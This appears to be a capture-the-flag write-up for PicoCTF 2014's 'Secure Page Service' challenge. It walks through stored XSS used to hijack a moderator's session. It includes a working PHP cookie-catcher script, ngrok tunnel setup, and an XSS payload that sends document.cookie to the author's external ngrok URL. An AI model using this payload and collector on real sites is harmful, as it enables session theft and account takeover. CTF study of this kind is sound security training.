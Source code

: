 ## Secure Page Service

This challenge comes from PicoCTF 2014. We have access to a very simple website with login features that allows users to post comments.

Our goal is to view the page with the id ```43440b22864b30a0098f034eaf940730ca211a55``` which is password locked. Only the site moderator could see this post, so we are to somehow disguise ourselves as the site moderator.
The way we can "pretend" as the site moderator is to hijack their session. Http is a stateless protocol, and the way server identifies individual users is by their cookies. 
If we could steal the moderator's cookie, we can login as the moderator without knowing their password and view the flag. 

In this challenge, we can perform session hijacking with XSS (Cross Site Scripting). When unescaped user input is directly presented on the webpage (the typical example is online forums), it is possible to embed scripts which can be executed upon an access to the webpage (or a click on the link).

The easiest way to check if XSS is possible is by embedding ```<script>alert()</script>```. When we access the page and if the alert pop-up shows up, then
it means the javascript code was successfully executed.

XSS requires the target/victim to access the page or click on the link, which is often the most difficult aspect of XSS. Luckily for this challenge, we can "report" our comment to the moderator: this guarantees that the moderator will view our comment!

So now it all comes down to the code we embed, as well as how to collect the cookie. There are many ways to do this, but one common thing is that we have to set up our own webpage to which we redirect the victim. I chose to set up the webpage using XAMPP with the help of ngrok.
Firstly, set up a webpage named ```cookieCatcher.php```, whose code is shown below
```
<?php
  $cookie = $_GET['cookie'];
  $ip = $_SERVER['REMOTE_ADDR'];
  $date = date('l jS \of F Y h:i:s A');
  $referer = $_SERVER['HTTP_REFERER'];
  $fp = fopen('cookies.html', 'a');
  fwrite($fp, 'Cookie: '.$cookie.'<br> IP: ' .$ip. '<br> Date and Time: ' .$date. '<br> Website: '.$referer.'<br><br><br>');
  fclose($fp);
  header ("javascript:history.back()");
?>
```
Basically, this acquires the victim's cookie (and REMOTE_ADD), and then outputs it to a file named ```cookies.html``` in the same directory. The output file can be a text file too. Put this PHP file in the ```htdocs``` folder. In order for a third party to access this page, we use ```ngrok```. This is a command line tool that creates a temoporary URL with which a third party can access our ```localhost```. 
Start up Apache in ```XAMPP```, and in the command line, type in ```ngrok.exe http 80```. This will output something like
```
Session Status                online
Version                       2.1.18
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://11465a2b.ngrok.io -> localhost:80
Forwarding                    https://11465a2b.ngrok.io -> localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
We are using GET method, so the code that we want to embed is 
```<script> location.href=("https://11465a2b.ngrok.io/cookieCatcher.php?cookie=" + document.cookie)</script>```

Note that ```document.cookie``` is outside the quotation. This redirects the user to ```cookieCatcher.php``` where we collect their cookie.
Fill out the comment with the script and click on "create". To prevent the script from executing for ourselves, add a password to this post. Now click on "report to the moderator" button, and check ```cookies.html```. You should see

```
Cookie: PHPSESSID=tc5n2bs46n32oh6u95lqfuftr3
IP: ::1
Date and Time: Sunday 1st of January 2017 05:55:06 AM
Website: http://sps.picoctf.com/view_page.php?page_id=eeff5ac550044e7f3ac738ffb3eb0c0cfb5b9500
```

We see that ```PHPSESSID = tc5n2bs46n32oh6u95lqfuftr3```. This is the session ID of the moderator: note that this is not static, so it will be different every time. Using ```CookieEditor```, a Firefox extension, we can set our cookie to this value.
Finally, enter the post id ```43440b22864b30a0098f034eaf940730ca211a55```. Without password, we are able to view the page, and it gives out the flag as a javascript alert. 
The flag is ```wow_cross_site_scripting_is_such_web```




